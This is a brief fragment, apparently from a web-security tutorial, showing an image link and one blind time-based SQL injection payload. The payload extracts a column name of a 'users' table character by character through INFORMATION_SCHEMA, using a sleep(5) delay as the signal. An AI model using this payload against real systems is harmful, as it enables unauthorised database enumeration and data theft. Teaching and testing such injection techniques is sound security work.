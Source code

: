 [![sqlinjectblindsleep21](/images/sqlinjectblindsleep21.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep21.png)


```sql
' or 1=1 AND substring((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' LIMIT 2,1),7,1) = 'r' AND sleep(5)-- -
```
